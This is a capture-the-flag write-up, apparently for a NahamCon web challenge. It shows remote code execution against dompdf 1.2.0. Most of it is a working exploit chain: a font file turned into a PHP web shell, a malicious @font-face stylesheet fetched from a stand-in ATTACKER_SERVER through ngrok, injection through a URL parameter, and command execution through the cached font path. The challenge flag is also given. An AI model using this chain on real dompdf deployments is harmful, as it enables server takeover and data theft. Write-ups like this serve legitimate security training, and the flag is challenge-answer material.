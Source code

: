 Description
Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website! Find the flag file in /flag.txt at the root of the filesystem.

Solution
Tried various payloads in form, but there are some restrictions, e.g. email must be email format, others must be numbers. Successfully inserted {{7 * 7}} as the name, but it just rendered as text.

When we submit, the URL looks like: http://challenge.nahamcon.com:32110/quote.php?organisation=%7B%7B7+*+7%7D%7D&email=a%40a.com&small=1&medium=1&large=1

We get a PDF receipt, containing the information from the URL parameters.

Don't see the request in burp HTTP history, need to change the filter to include binary.

When we do that and scroll through the response, we find the version þÿdompdf 1.2.0.

Google it: https://github.com/positive-security/dompdf-rce

The PoC works, we just need to update URL's, MD5 hash and the payload. However, this article shows the full manual process with a more in depth explanation: https://exploit-notes.hdks.org/exploit/web/dompdf-rce

Copy a true type font to php file.

Copy
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
Add a shell at the bottom of the file.

Copy
<?php system($_REQUEST["cmd"]); ?>
Create a malicious CSS, the info in here is important for accessing the uploaded PHP file, i.e. /dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php.

Copy
@font-face {
    font-family: "evil";
    src: url("http://ATTACKER_SERVER/evil.php");
    font-weight: "normal";
    font-style: "normal";
}
Create a python web server and expose using ngrok.

Copy
sudo python -m http.server 80
ngrok http 80
Make a request containing the malicious stylesheet.

Copy
http://challenge.nahamcon.com:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=a%40a.com&small=1&medium=1&large=1
Calculate the MD5 of the malicious PHP URL.

Copy
echo -n http://ATTACKER_SERVER/evil.php | md5sum

b8e6174c9d5ee52c9b35647ffbd20856
Access the URL: http://challenge.nahamcon.com:32110/dompdf/lib/fonts/evil_normal_b8e6174c9d5ee52c9b35647ffbd20856.php?cmd=ls

Works! We can now call cat /flag.txt and receive the flag.

Flag: flag{a4d52beabcfdeb6ba79fc08709bb5508}